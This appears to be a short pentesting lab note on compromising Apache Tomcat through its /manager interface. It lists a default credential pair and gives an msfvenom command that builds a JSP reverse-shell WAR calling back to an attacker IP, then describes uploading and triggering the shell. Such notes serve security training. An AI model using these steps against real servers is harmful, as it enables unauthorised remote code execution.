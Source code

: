 ```yaml
---
title: Tomcat 🐱
---
```

## `/manager` directory

If you discovered the presence of this directory, you can connect to it with identification

> Sometimes it might have default creds: `tomcat:s3cret`

![](Pasted%20image%2020240510010000.png)

Once here, you must upload a `.war` jsp reverse shell.

To create this shell, you can use msfvenom:

```shell
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.11.74.136 lport=666 -f war -o shell.war
```

Then you will upload it:

![](Pasted%20image%2020240510010146.png)

Now, as it deploys it automatically, you must click on `/shell` and you've got a reverse shell:

![](Pasted%20image%2020240510010253.png)

